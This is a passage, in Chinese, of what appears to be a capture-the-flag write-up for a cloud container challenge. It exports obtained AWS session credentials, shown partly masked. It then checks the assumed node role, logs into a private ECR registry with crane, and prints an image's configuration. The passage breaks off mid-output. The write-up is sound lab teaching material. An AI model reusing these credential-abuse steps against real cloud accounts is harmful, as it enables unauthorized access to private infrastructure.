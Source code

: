 看看我是谁

```bash
# 一顿 export 猛如虎
export AWS_ACCESS_KEY_ID=ASIA[AKID]5J
export AWS_SECRET_ACCESS_KEY=YPa[AKSK]+I3nF
export AWS_SESSION_TOKEN=Fw[ST]rD6dG
aws sts get-caller-identity
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

题目描述希望我们找到 image 并且再次进行审计, 顺带提及，这里为了方便，安装好了 crane ，这次是 2 的升级版。

[docs.aws.amazon.com/cli/latest/reference/ecr/get-login-password.html](https://docs.aws.amazon.com/cli/latest/reference/ecr/get-login-password.html)

aws 获取 docker 登陆 token 的文档在这里。 参考 example 直接填写，并且将 docker 替换为 crane

> Crane 参考本小节下方 other information 的 crane 部分

```bash
aws ecr get-login-password|crane auth login 688655246681.dkr.ecr.us-west-1.amazonaws.com -u AWS --password-stdin

# 成功后只有这一行
2023/MM/DD HH:mm:ss logged in via /home/user/.docker/config.json
```

登陆成功后，直接对远程镜像进行解析。

```bash
crane config 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01

{
  "architecture": "amd64",
  "config": {
    "Env": [
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
    ],
    "Cmd": [
      "/bin/sleep",
      "3133337"
    ],
    "ArgsEscaped": true,
    "OnBuild": null
  },
  "created": "2023-11-01T13:32:07.782534085Z",
  "history": [
    {
      "created": "2023-07-18T23:19:33.538571854Z",
      "created_by": "/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "
    },
    {
      "created": "2023-07-18T23:19:33.655005962Z",
      "created_by": "/bin/sh -c #(nop) CMD [\"sh\"]",
      "empty_layer": true
    },
    {
      "created": "2023-11-01T13:32:07.782534085Z",
```